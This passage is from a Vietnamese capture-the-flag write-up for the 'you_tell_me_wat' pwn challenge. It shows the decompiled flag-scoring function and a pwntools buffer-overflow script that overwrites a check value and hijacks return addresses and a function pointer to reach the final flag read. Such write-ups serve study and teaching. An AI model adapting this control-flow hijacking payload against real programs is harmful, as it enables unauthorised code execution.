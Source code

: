 Tại wat2 sau khi nhập input sẽ gọi hàm `v3(s)` hay `notfun(s)`, hàm `notfun` sẽ tiến hành chấm điểm cho chuỗi nhập vào nếu số điểm bằng `322376503 (0x13371337)` sẽ pass và lấy được mảnh flag cuối cùng
```
int __cdecl notfun(char *s)
{
  size_t i; // [esp+8h] [ebp-10h]
  int v3; // [esp+Ch] [ebp-Ch]

  v3 = 0;
  for ( i = 0; i < strlen(s); ++i )
    v3 += s[i];
  if ( v3 == 322376503 )
  {
    puts("[ + ] tak3 iT");
    flag3 = readflag("ISPCTF2022.flag");
    print_flag();
  }
  else
  {
    puts("[ + ] s0 b0r1Ng");
  }
  return 0;
}
```
Cơ chế tính điểm của hàm rất đơn giản, cộng giá trị của kí tự trong chuỗi để ra số điểm
Vấn đề là giá trị tối đa của s[i] là 255 (0xff) => giá trị tối đa ta có thể đạt được là 0xff x 60 = 15300 điểm. Quá nhỏ so với số điểm cần đạt.
Cách giải quyết rất đơn giản, thay đổi giá trị v3 trong hàm wat2, từ đó thay vì gọi hàm notfun hãy control đến thẳng vị trí mong muốn `(readflag thứ 3)`

# 3. Viết payload
```
from pwn import *
p = process("./you_tell_me_wat")
#p = remote("4.tcp.ngrok.io", 15961)
wat1 = 0x0804887d #0x0804880d
wat2 = 0x08048795 #0x08048725
win = p32(0x08048727) #p32(0x80486B7)
# gdb.attach(p)

pl =  32*"A"+p32(0x13371337) # modify bypass check value
pl += "A"*(48-36) # padding payload
pl += p32(wat1) + p32(wat2) + p32(1987406921) + p32(1852729677) # 2 param to check in wat1 and return address to wat2

p.sendline(pl)

pl = 'A'*60+win # modify v3 = notfun to address point to read 3rd flag
p.sendline(pl)

p.interactive()
```
